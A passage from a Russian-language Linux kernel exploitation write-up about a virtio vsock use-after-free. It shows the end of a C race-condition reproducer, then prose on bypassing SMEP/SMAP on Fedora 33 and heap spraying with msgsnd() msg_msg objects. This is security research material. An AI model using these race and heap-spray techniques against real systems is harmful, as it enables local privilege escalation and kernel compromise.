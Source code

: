             ret = pthread_create(&th[0], NULL, th_connect, &tmo1);
            if (ret != 0)
                err_exit("[-] pthread_create #0");

            ret = pthread_create(&th[1], NULL, th_setsockopt, &tmo2);
            if (ret != 0)
                err_exit("[-] pthread_create #1");

            ret = pthread_join(th[0], NULL);
            if (ret != 0)
                err_exit("[-] pthread_join #0");

            ret = pthread_join(th[1], NULL);
            if (ret != 0)
                err_exit("[-] pthread_join #1");

            if (tfail) {
                printf("[-] some thread got troubles\n");
                exit(EXIT_FAILURE);
            }
        }

        ret = close(vsock);
        if (ret)
            perror("[-] close");

        printf("[+] now see your warnings in the kernel log\n");
        return 0;
    }

Значение размера здесь берется из количества наносекунд, возвращаемого функцией ` clock_gettime () `, которое каждый раз может быть разным. Исходный syzkaller этого не делает, потому что, когда syzkaller генерирует ввод фаззинга, значение параметра syscall определяется и не изменяется во время выполнения.

Мощность четырех байтов
-----------------------

Здесь я выбрал Fedora 33 Server в качестве объекта исследования, версия ядра - 5.10.11-200.fc33.x86_64, и я намерен обойти SMEP и SMAP.

На первом этапе я начал изучать распыление стабильной кучи, которое использовало выполнение действий в пользовательском пространстве, чтобы ядро ​​выделяло другой 64-байтовый объект в местоположении выпущенного virtio_vsock_sock. После нескольких экспериментальных попыток было подтверждено, что выпущенный файл virtio_vsock_sock был перезаписан, что указывает на возможность распыления кучи. Наконец я нашел системный вызов msgsnd (). Он создает структуру msg_msg в пространстве ядра, см. Вывод pahole:

    struct msg_msg {
        struct list_head           m_list;               /*     0    16 */
        long int                   m_type;               /*    16     8 */
        size_t                     m_ts;                 /*    24     8 */
        struct msg_msgseg *        next;                 /*    32     8 */
        void *                     security;             /*    40     8 */

        /* size: 48, cachelines: 1, members: 5 */
        /* last cacheline: 48 bytes */
    };
